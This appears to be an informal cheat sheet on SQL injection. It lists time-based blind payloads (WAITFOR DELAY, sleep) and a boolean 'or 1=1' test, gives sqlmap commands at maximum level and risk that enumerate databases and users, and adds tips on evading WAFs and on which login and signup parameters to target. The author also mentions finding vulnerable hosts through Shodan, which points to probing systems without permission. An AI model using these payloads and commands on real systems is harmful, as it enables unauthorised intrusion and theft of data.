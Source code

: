 One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.

For example: if the GET parameter ?username=Peter returns the same content as ?username=Peter' or '1'='1 then, you found a SQL injection.


```
')) or sleep(5)=' 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
```


sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user

90% from my finds in SQL injection as
 [POST Request] 
1 Login page in username parameter 
2 Forget password page username parameter
3 Singup Page firstname and last name parameter

' WAITFOR DELAY '0:0:5'-- 
';WAITFOR DELAY '0:0:5'-- 
===>Comment

If sometimes you cant exploits  
change request form POST to GET 
if the same with the url injection try change request form GET to POST



most modern web apps use WAF & user input validation before execute it.
yeh 
you can try with 
--random-agent 
but i dont remember that i use tempers 

or maby because lot of these sql i found it from shodan ips




all the time i try Sql  in user parameter 
1)
i used sleep payload
';WAITFOR DELAY '0:0:5'-- 
and the server get DELAY for 5 s
2)
save Post request in txt
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
